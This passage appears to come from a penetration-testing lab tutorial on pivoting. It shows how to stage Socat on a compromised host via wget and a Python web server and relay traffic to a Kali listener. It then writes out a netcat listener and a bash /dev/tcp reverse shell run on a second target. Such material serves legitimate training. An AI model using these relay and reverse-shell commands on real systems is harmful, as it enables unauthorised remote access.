 </div>

and we can see that's third network interface 30.30.30.0/24 (target 3 -> \<t2\_nat3>.

### Socat

Good, but the matter is that Kali attacker machine isn't reachable by target2:

<div align="left">

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

</div>

Bad situation in a PT, where we need to spawn a reverse shell. To solve this problem a tool called [`Socat`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat) comes in handy.

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat" %}

We are going to use Socat to help us reach Attacker machine from our Target/Victim machine and spawn a shell.&#x20;

<pre class="language-bash"><code class="lang-bash">#Kali
curl https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -o socat #download Socat
chmod +x socat #give execution permission (do it on both machines)
<strong>#transfer Socat on victim machine / target 1
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>#download on target 1 using wget or similar methods
</strong><strong>#Target 1
</strong><strong>wget &#x3C;kali_nat1>/socat
</strong><strong>chmod +x socat
</strong></code></pre>

```bash
#Target 1
./socat tcp-l:1111,fork,reuseaddr tcp:<kali_nat1>:111 #tcp-l: listening port, send data to tcp:attacker:port
```

Now, we've a reverse connection, and if we listening on Kali machine using on port 111 and we spawn a [reverse shell](https://www.revshells.com/) on target 2 (using Target 2's IP of 2nd net interface in common between target 1 and 2), we obtain a target 2 session on Kali machine.

{% embed url="https://www.revshells.com/" %}

```bash
#Kali
nc -nlvp 111 #listening on port 111
#Target 2
sh -i >& /dev/tcp/<t1_nat2>/1111 0>&1 #Bash -i reverse shell with IP target 1 and socat listening port 1111
```
